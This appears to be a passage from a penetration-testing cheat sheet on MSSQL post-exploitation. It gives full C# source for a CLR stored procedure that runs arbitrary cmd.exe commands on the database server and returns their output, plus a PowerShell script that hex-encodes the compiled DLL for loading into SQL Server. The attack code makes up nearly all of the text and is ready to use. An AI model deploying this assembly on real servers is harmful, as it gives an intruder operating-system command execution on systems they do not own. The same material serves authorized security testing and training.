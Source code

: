 Custom assembly code example (must be compiled to `SqlCmdExec.dll`):

{% code title="SqlCmdExec.cs" %}
```csharp
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format($@" /c {execCommand}");
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();
        proc.WaitForExit();
        proc.Close();
    }
}
```
{% endcode %}

Convert custom assembly DLL to a hex string:

{% code title="Convert-AssemblyToHex.ps1" %}
```powershell
$assemblyFile = "SqlCmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File SqlCmdExec.txt
```
{% endcode %}




## Tools

- [https://www.heidisql.com/download.php](https://www.heidisql.com/download.php)

